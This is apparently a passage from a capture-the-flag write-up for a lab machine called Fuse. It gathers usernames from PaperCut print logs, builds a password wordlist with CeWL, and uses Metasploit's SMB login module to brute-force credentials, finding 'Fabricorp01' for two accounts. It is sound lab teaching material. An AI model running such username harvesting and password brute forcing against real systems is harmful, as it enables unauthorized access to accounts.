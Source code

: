 If we click on each date, we can see the username that printed each document. If we click on each date we can create a list of usernames: `pmerton`, `tlavel`, `sthompson`, `bhult` and `administrator`.

Now we need to create a wordlist to use to bruteforce with these usernames to see if we can login to any service. To do this we can use CeWl. First we need to add `fuse.fabricorp.local` to our `/etc/hosts` file, then we can run CeWl.

```bash
finlay@kali:~$ cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers -w passwords.txt
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
finlay@kali:~$ cat passwords.txt 
Print
2020
PaperCut
Logs
MFT01
...
```

# Exploitation

## SMB

Now that we have a list of usernames and passwords, we can try metasploit's smb login module.

```bash
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.10.193
RHOSTS => 10.10.10.193
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.193:445      - 10.10.10.193:445 - Starting SMB login bruteforce
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\tlavel:Fabricorp01'
...
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: '.\bhult:Fabricorp01'
...
```

Now we have the SMB password for `tlavel` and `bhult`: `Fabricorp01`

If we try logging in to the SMB shares as `tlavel` we see this message:

```bash
finlay@kali:~/htb/fuse$ smbclient -L 10.10.10.193 -U tlavel
Enter WORKGROUP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```
